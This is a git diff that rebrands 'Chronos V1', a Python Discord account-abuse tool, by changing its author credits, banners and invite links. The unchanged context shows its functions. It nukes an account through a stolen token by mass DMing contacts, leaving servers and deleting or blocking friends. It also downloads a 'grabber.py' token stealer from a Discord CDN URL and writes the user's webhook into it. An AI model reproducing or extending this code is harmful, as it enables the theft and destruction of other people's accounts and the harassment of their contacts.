

V1.0

diff --git a/src/main.py b/src/main.py
@@ -1,4 +1,3 @@
-from itertools import count
 import os
 import sys
 import fade
@@ -29,19 +28,19 @@ def main():
         os.system('clear')
 
     # Set Console title
-    set_console_title("Chronos V1 | Made by gokimax | Menu")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Menu")
 
     # ========================================================================================================================================================= #
 
     banner = """
-                            _________ .__                                      
-                            \_   ___ \|  |_________  ____   ____   ____  ______
-                            /    \  \/|  |  \_  __ \/  _ \ /    \ /  _ \/  ___/
-                            \     \___|   Y  \  | \(  <_> )   |  (  <_> )___ \ 
-                             \______  /___|  /__|   \____/|___|  /\____/____  >
-                                    \/     \/                  \/           \/ v1.0
+                    ______     __  __     ______     ______     __   __     ______     ______    
+                   /\  ___\   /\ \_\ \   /\  == \   /\  __ \   /\ "-.\ \   /\  __ \   /\  ___\   
+                   \ \ \____  \ \  __ \  \ \  __<   \ \ \/\ \  \ \ \-.  \  \ \ \/\ \  \ \___  \  
+                    \ \_____\  \ \_\ \_\  \ \_\ \_\  \ \_____\  \ \_\\\\"\_\  \ \_____\  \/\_____\ 
+                     \/_____/   \/_/\/_/   \/_/ /_/   \/_____/   \/_/ \/_/   \/_____/   \/_____/ 
+                                                                                                 
                         ╔═════════════════════════╗         ╔═════════════════════════╗
-                        ║      dsc.gg/gokimax     ║         ║       dsc.gg/gokimax    ║
+                        ║       dsc.gg/akago      ║         ║        dsc.gg/akago     ║
                      ╔═══════════════════════════════╗   ╔═══════════════════════════════╗
                      ║ [1] Nuke Token                ║   ║ [10] Get All Friends          ║  
                      ║ [2] Leave Servers             ║   ║ [11] Token Info               ║
@@ -59,7 +58,7 @@ def main():
 
     # ========================================================================================================================================================= #
 
-    info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by gokimax [+]"""
+    info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by maxツ#8355 [+]"""
     for x in info:
         time.sleep(0.0001)
         sys.stdout.write(x)
@@ -144,7 +143,7 @@ def socials():
         os.system('clear')
 
     # Set Console title
-    set_console_title("Chronos V1 | Made by gokimax | Socials")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Socials")
 
     banner = f"""
                                  _________                    .___.__  __          
@@ -153,11 +152,11 @@ def socials():
                                  \     \____|  | \/\  ___// /_/ | |  ||  |  \___ \ 
                                   \______  /|__|    \___  >____ | |__||__| /____  >
                                          \/             \/     \/               \/ 
-                                           ╔═════════════════════════╗      
-                                           ║      dsc.gg/gokimax     ║
-                                           ║  twitter.com/gokimax_x  ║  
-                                           ║   github.com/gokiimax   ║  
-                                           ╚═════════════════════════╝   
+                                           ╔════════════════════════════╗      
+                                           ║      dsc.gg/akago          ║
+                                           ║  twitter.com/gokimax_x     ║  
+                                           ║   github.com/maxi-schaefer ║  
+                                           ╚════════════════════════════╝   
     """
     faded_banner = fade.greenblue(banner)
     for x in faded_banner:

diff --git a/src/utils/common.py b/src/utils/common.py
@@ -11,19 +11,18 @@ from colorama import Fore
 
 def clear_banner():
     banner = """
-                            _________ .__                                      
-                            \_   ___ \|  |_________  ____   ____   ____  ______
-                            /    \  \/|  |  \_  __ \/  _ \ /    \ /  _ \/  ___/
-                            \     \___|   Y  \  | \(  <_> )   |  (  <_> )___ \ 
-                             \______  /___|  /__|   \____/|___|  /\____/____  >
-                                    \/     \/                  \/           \/ v1.0
+                    ______     __  __     ______     ______     __   __     ______     ______    
+                   /\  ___\   /\ \_\ \   /\  == \   /\  __ \   /\ "-.\ \   /\  __ \   /\  ___\   
+                   \ \ \____  \ \  __ \  \ \  __<   \ \ \/\ \  \ \ \-.  \  \ \ \/\ \  \ \___  \  
+                    \ \_____\  \ \_\ \_\  \ \_\ \_\  \ \_____\  \ \_\\\\"\_\  \ \_____\  \/\_____\ 
+                     \/_____/   \/_/\/_/   \/_/ /_/   \/_____/   \/_/ \/_/   \/_____/   \/_____/ 
     """
     faded_banner = fade.greenblue(banner)
 
     if os.name == "nt":
         os.system("cls")
         print(faded_banner)
-        info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by gokimax [+]\n"""
+        info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by maxツ#8355 [+]\n"""
         for x in info:
             time.sleep(0.0001)
             sys.stdout.write(x)
@@ -32,7 +31,7 @@ def clear_banner():
     else:
         os.system("clear")
         print(faded_banner)
-        info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by gokimax [+]"""
+        info = f"""{Fore.LIGHTCYAN_EX}\t\t\t\t\t  [+] Made by maxツ#8355 [+]"""
         for x in info:
             time.sleep(0.0001)
             sys.stdout.write(x)

diff --git a/src/utils/DownloadToken.py b/src/utils/DownloadToken.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def downloadGrabber(webhook):
-    set_console_title("Chronos V1 | Made by gokimax | Download Grabber")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Download Grabber")
     url = 'https://cdn.discordapp.com/attachments/1014530090794766482/1014605376471183390/grabber.py'
     r = requests.get(url, allow_redirects=True)
     open('output/grabber.py', 'w', encoding='utf-8').write(r.content.decode().replace("WEBHOOK HERE", webhook))

diff --git a/src/utils/blockAllFriends.py b/src/utils/blockAllFriends.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def blockAllFriends(token):
-    set_console_title("Chronos V1 | Made by gokimax | Block All Friends")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Block All Friends")
     headers = {"authorization": token, "user-agent": "bruh6/9"}
     json = {"type": 2}
     block_friends_request = requests.get("https://canary.discord.com/api/v8/users/@me/relationships", headers=headers).json()

diff --git a/src/utils/closeDMs.py b/src/utils/closeDMs.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def close_all_dms(token):
-    set_console_title("Chronos V1 | Made by gokimax | Close DMs")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Close DMs")
     headers = {"authorization": token, "user-agent": "Samsung Fridge/6.9"}
     close_dm_request = requests.get("https://canary.discord.com/api/v8/users/@me/channels", headers=headers).json()
     for channel in close_dm_request:

diff --git a/src/utils/createServers.py b/src/utils/createServers.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def createServers(token, count, name):
-    set_console_title("Chronos V1 | Made by gokimax | Create Servers")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Create Servers")
     headers = {"authorization": token, "user-agent": "Samsung Fridge/6.9"}
     for i in range(int(count)):
         print(f"{Fore.WHITE}[{Fore.LIGHTCYAN_EX}{str(i+1)}{Fore.WHITE}] Created Server")

diff --git a/src/utils/accountNuker.py b/src/utils/accountNuker.py
@@ -10,7 +10,7 @@ from utils.deleteFriends import *
 # ====================================================================================================================== #
 
 def start_nuke(token, content):
-    set_console_title("Chronos V1 | Made by gokimax | Nuker")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Nuker")
     massDM(token=token, content=content)
     leaveServer(token=token)
     deleteServers(token=token)

diff --git a/src/utils/tokenInfo.py b/src/utils/tokenInfo.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def tokenInfo(token):
-    set_console_title("Chronos V1 | Made by gokimax | Token Info")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Token Info")
     headers = {'Authorization': token, 'Content-Type': 'application/json'}  
     r = requests.get('https://discord.com/api/v6/users/@me', headers=headers)
     if r.status_code == 200:

diff --git a/src/utils/leaveServer.py b/src/utils/leaveServer.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def leaveServer(token):
-    set_console_title("Chronos V1 | Made by gokimax | Leave Server")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Leave Server")
     headers = {'Authorization': token}
     guildsIds = requests.get("https://discord.com/api/v8/users/@me/guilds", headers=getheaders(token)).json()
     for guild in guildsIds:

diff --git a/src/utils/massDM.py b/src/utils/massDM.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def massDM(token, content):
-    set_console_title("Chronos V1 | Made by gokimax | Mass DM")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Mass DM")
     headers = {'Authorization': token}
     channelIds = requests.get("https://discord.com/api/v9/users/@me/channels", headers=getheaders(token)).json()
     for channel in channelIds:

diff --git a/src/utils/getAllFriends.py b/src/utils/getAllFriends.py
@@ -3,7 +3,7 @@ import requests
 from utils.common import *
 
 def get_all_friends(token):
-    set_console_title("Chronos V1 | Made by gokimax | Get Friends")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Get Friends")
     headers = {"authorization": token, "user-agent": "bruh6/9"}
     r = requests.get(
         "https://canary.discord.com/api/v8/users/@me/relationships", headers=headers

diff --git a/src/utils/deleteFriends.py b/src/utils/deleteFriends.py
@@ -2,7 +2,7 @@ import requests
 from utils.common import *
 
 def deleteFriends(token):
-    set_console_title("Chronos V1 | Made by gokimax | Delete Friends")
+    set_console_title("Chronos V1 | Made by maxツ#8355 | Delete Friends")
     friendIds = requests.get("https://discord.com/api/v9/users/@me/relationships", headers=getheaders(token)).json()
     for friend in friendIds:
         try:
